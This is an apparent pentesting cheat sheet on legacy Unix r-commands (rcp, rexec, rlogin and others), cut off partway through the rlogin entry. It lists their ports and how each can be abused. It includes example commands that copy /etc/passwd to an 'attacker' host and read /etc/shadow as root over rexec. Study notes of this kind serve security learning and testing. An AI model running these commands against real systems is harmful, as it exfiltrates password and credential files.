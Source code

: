 
### **Frequently Used R-Commands**

|**Command**|**Service Daemon**|**Port**|**Description**|
|---|---|---|---|
|**rcp**|rshd|514|Remote file copying between Unix hosts. Similar to `scp`.|
|**rexec**|rexecd|512|Executes commands on a remote host with authentication.|
|**rlogin**|rlogind|513|Provides terminal access to a remote host.|
|**rsh**|rshd|514|Executes commands on a remote host without login.|
|**rstat**|rpc.rstatd|512/UDP|Reports system performance statistics.|
|**ruptime**|rstatd|512|Displays uptime and load averages of remote hosts.|
|**rwho**|rwhod|513/UDP|Shows users currently logged into a remote host.|

---

### **Commonly Abused R-Commands**

#### **1. rcp (Remote Copy)**

- **Usage**:

```shell
rcp <source_file> <remote_user>@<remote_host>:<destination_path>
```

- **Abuse Potential**: If misconfigured, files can be copied without authentication or access restrictions.
- **Example**:

```bash
rcp /etc/passwd attacker@192.168.1.10:/tmp
```

#### **2. rexec (Remote Execution)**

- **Usage**:

```sh
rexec <remote_host> -l <username> <command>
```

- **Abuse Potential**: Credentials are sent in plaintext. An attacker could intercept credentials and commands.
- **Example**:

```bash
rexec 192.168.1.10 -l root cat /etc/shadow
```


#### **3. rlogin (Remote Login)**

- **Usage**:

